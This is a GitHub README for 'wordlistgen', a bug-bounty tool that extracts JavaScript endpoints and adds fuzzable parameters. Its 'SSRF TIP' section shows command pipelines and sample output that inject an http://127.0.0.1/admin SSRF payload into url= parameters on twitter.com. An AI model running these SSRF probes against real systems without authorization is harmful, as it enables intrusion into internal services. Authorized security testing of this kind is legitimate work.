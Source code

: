 # wordlistgen
Generates target specific word lists by searching for endpoints in javascript and appends parameters for Fuzzing with other tools

**Version 1.0**


### Install

**`$ go get -u github.com/ethicalhackingplayground/wordlistgen`**

**`$ go get github.com/003random/getJS`**


![GitHub Logo](carbon.png)


### Generate wordlist
**`$ echo "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d "https://www.twitter.com"`**

![GitHub Logo](carbon2.png)

The use ffuf


**Then get creative with FFuF or https://github.com/tomnomnom/qsreplace**

****
### SSRF TIP2:


#### Generate Wordlist
**`$ cat "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d"www.twitter.com" | tee wordlist`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=FUZZ
www.twitter.com/v/latest/72x72//?url=FUZZ
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=FUZZ
www.twitter.com/articles/18311/?url=FUZZ
```

##### Replace Variables with Payload
**`$ cat wordlist | qsreplace http://127.0.0.1/admin | tee -a hosts`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/v/latest/72x72//?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/articles/18311/?url=http%3A%2F%2F127.0.0.1%2Fadmin
```

#### Use HTTPX to keep track of the codes,titles
**`$ cat hosts | httpx -title -status-code`**

#### I hope you get a bounty with this technique.
****


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
